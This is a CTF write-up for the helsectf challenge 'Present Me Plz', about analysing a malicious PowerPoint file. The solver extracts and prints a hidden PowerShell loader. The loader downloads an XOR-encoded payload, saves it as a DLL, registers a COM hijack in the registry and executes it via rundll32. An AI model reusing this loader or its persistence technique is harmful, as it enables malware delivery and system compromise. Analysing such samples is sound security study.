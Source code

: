 # Present Me Plz (500)

Maldocs bruker som regel exploits eller makroer for å kjøre kode. Dette maldocet bruker en teknisk sett en exploit.

Maldocs har som regel som oppgave å laste ned noe. Ofte videre kode. Dette maldocet forsøker også noe nedlasting.

Zipfilen kan åpnes med passord: "helsectf"

[PresentMePlz.zip](PresentMePlz.zip)

# Writeup

Using olemeta I see the thumbnail is full of garbage. Googling "ppt thumbnail exploits" shows that that is actually a thing. So next step is to extract the thumbnail using exiftool I can do this:

```
exiftool -b -ThumbnailClip PresentMePlz.ppt > thumbnail
```

`file` shows me that this is: `thumbnail: DOS executable (block device driver \211M,32-bit sector-support)`

Seems to be a red herring. Going more with ole tools, using oledump here I see parts of the document. I start by dumping the 5th. And in the dump I see some text at the end.

```
$ python oledump/oledump.py PresentMePlz.ppt               
  1:      4096 '\x05DocumentSummaryInformation'
  2:     43668 '\x05SummaryInformation'
  3:        32 'Current User'
  4:     29752 'Pictures'
  5:     37607 'PowerPoint Document'
```

![data](data_in_the_hidden.png)

Copying that data manually out and removing the `^@` leaves me with this:

```powershell
  .vbs:..\..\..\..\..\..\..\..\windows/System32::$index_allocation/SyncA^ppvPublishingServer.vbs" ;$I=$env:Temp+'\local.lnk';if([IO.File]^::Exists($I)){break;    };[IO.File]::Create($I,1,[io.FileOPtions^]::DeleteOnClose);$r=$ENV:ALLUSERSPROFILE+'\lmapi2.dll';if([IO.F^ile]::Exists($r)){break;    };$l=[Convert]::ToChar(0x2F);$lI='ht^tps:%5C%5Chelsectf2023-6ac4e1c6d8855c1bd96a-358bea1cc922.chals.i^o'+$l+'DSC0002.jpeg';$f=(New-Object Net.WebClient).DownloadData(^$lI);if($f.Count -lt 10000){break;};$f=$f[2..$f.Count];$x=24;$f=^$f|%{    $x=(29*$x+49)% 256;    $_=($_ -bxor $x);    $_    };if(^$DetteVarEtEkteMaldoc){[IO.File]::WriteAllBytes($r,$f);$k=[Conve^rt]::ToChar(0x23);$z=$l+'c reg ADD HKCU\Software\Classes\CLSID\{^2735412E-7F64-5B0F-8F00-5D77AFBE261E}\InProcServer32 '+$l+'t REG^_SZ '+$l+'d '+$r+' '+$l+'ve '+$l+'f '+ $l+'reg:64'+' && '+'rundl^l32.exe '+$r+','+$k+'1';cmd $z;}else{break;};
```

Cleanup

```powershell
$I=$env:Temp+'\local.lnk';
if([IO.File]::Exists($I)){break;};
[IO.File]::Create($I,1,[io.FileOPtions]::DeleteOnClose);
$r=$ENV:ALLUSERSPROFILE+'\lmapi2.dll';
if([IO.File]::Exists($r)){break;};
$l=[Convert]::ToChar(0x2F);
$lI='https:%5C%5Chelsectf2023-6ac4e1c6d8855c1bd96a-358bea1cc922.chals.io'+$l+'DSC0002.jpeg';
$f=(New-Object Net.WebClient).DownloadData($lI);
if($f.Count -lt 10000){break;};
$f=$f[2..$f.Count];
$x=24;
$f=$f|%{$x=(29*$x+49)% 256;
$_=($_ -bxor $x); $_ };
if($DetteVarEtEkteMaldoc){
    [IO.File]::WriteAllBytes($r,$f);
    $k=[Convert]::ToChar(0x23);
    $z=$l+'c reg ADD HKCU\Software\Classes\CLSID\{2735412E-7F64-5B0F-8F00-5D77AFBE261E}\InProcServer32 '+$l+'t REG_SZ '+$l+'d '+$r+' '+$l+'ve '+$l+'f '+ $l+'reg:64'+' && '+'rundll32.exe '+$r+','+$k+'1';cmd $z;
}
else{break;};
```
Got this URL from that:

`https://helsectf2023-6ac4e1c6d8855c1bd96a-358bea1cc922.chals.io/DSC0002.jpeg`

Visiting that URL I get a message asking how I got `Chrome` from the PowerPoint. So I guess I have to fake my user agant? Not sure what agent `PowerPoint` will be using, i tried just the word `PowerPoint`. Had to make a request to my own webserver using PowerShell to check. But all I got was `-` and that did not work. After a while I got a tip to remove the header. And I was fooled by Nginx's filler data when no header is available. Next time I should use a netcat server to see all headers.

And we got a file, now I just need to do the same operations as the powershell above does. I made [solve.py](solve.py) to do this for me. While testing I saw the `PNG` header in the bytes so I just wrote all the data to a `flag.png` file and bingo!

![flag.png](flag.png)


# Flag

```
helsectf{https://tinyurl.com/2c6tkzfa}
```